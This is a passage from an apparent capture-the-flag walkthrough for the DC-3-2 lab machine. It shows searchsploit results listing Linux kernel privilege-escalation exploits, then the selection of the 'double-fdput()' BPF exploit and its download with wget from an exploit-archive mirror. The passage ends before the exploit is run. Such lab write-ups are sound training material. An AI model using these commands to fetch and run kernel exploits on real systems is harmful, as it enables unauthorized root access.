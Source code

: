 ~~~
Linux Kernel (Debian 9/10 / Ubuntu 14.04.5/16.04.2/17.04 / Fedora 23/24/25) - 'ldso_dynamic Stack Clash' Local | linux_x86/local/42276.c
Linux Kernel 4.4 (Ubuntu 16.04) - 'BPF' Local Privilege Escalation (Metasploit)                                | linux/local/40759.rb
Linux Kernel 4.4.0 (Ubuntu 14.04/16.04 x86-64) - 'AF_PACKET' Race Condition Privilege Escalation               | linux_x86-64/local/40871.c
Linux Kernel 4.4.0-21 (Ubuntu 16.04 x64) - Netfilter 'target_offset' Out-of-Bounds Privilege Escalation        | linux_x86-64/local/40049.c
Linux Kernel 4.4.0-21 < 4.4.0-51 (Ubuntu 14.04/16.04 x64) - 'AF_PACKET' Race Condition Privilege Escalation    | windows_x86-64/local/47170.c
Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' bpf(BPF_PROG_LOAD) Privilege Escalation                   | linux/local/39772.txt
Linux Kernel 4.6.2 (Ubuntu 16.04.1) - 'IP6T_SO_SET_REPLACE' Local Privilege Escalation                         | linux/local/40489.txt
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation                                  | linux/local/45010.c
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation                                         | linux/local/44298.c
Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) - 'netfilter target_offset' Local Privilege Escalation              | linux_x86-64/local/44300.c
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escalation (KASLR / SMEP)          | linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16.04 / Linux Mint 17/18 / Zorin) - Local Privilege Escalation (KA | linux/local/47169.c
--------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
~~~

## Download the exploit ('double-fdput()' bpf(BPF_PROG_LOAD) Privilege Escalation)

After trying several of them without success, I eventually found one that worked: "Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' bpf(BPF_PROG_LOAD) Privilege Escalation". The exploit file contains a github link to download the exploit files:

~~~
kali@kali:/data/DC-3-2/files$ searchsploit -m 39772
kali@kali:/data/DC-3-2/files$ grep github 39772.txt 
Exploit-DB Mirror: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
~~~

Let's download the exploit files:

~~~
kali@kali:/data/DC-3-2/files$ wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
~~~

## Exploit the target
